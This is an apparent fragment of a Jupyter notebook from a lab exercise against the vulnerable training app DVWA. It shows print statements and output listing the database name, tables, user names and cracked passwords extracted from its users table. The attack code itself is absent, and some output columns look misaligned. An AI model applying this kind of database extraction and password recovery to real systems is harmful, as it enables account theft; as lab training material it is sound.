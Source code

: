     [PASSWORD.FOUND] =  password
    [PASSWORD.FOUND] =  abc123
    [PASSWORD.FOUND] =  letmein
    [PASSWORD.FOUND] =  charley

    ['password', 'abc123', 'letmein', 'charley']



```python
print(" ---------- Database info --------- " )
print("Name of the database: ", db_name)
print("Database tables :", tables_found)

print("\n")
print(" ---------- Information retrieved from the users table --------- " )
print("first_name :\t", list_of_first_name)
print("last_name :\t", list_of_last_name)
print("user :\t\t", list_of_user)
print("password :\t", passwords_found)

```

     ---------- Database info --------- 
    Name of the database:  dvwa
    Database tables : ['users', 'User_', 'Users', 'guestbook']
    
    
     ---------- Information retrieved from the users table --------- 
    first_name :	 ['admin', 'Pablo', 'Gordon', 'hack', 'bob']
    last_name :	 ['admin', 'brown', 'smith', 'picasso', 'me']
    user :		 ['admin', 'Pablo']
    password :	 ['password', 'abc123', 'letmein', 'charley']

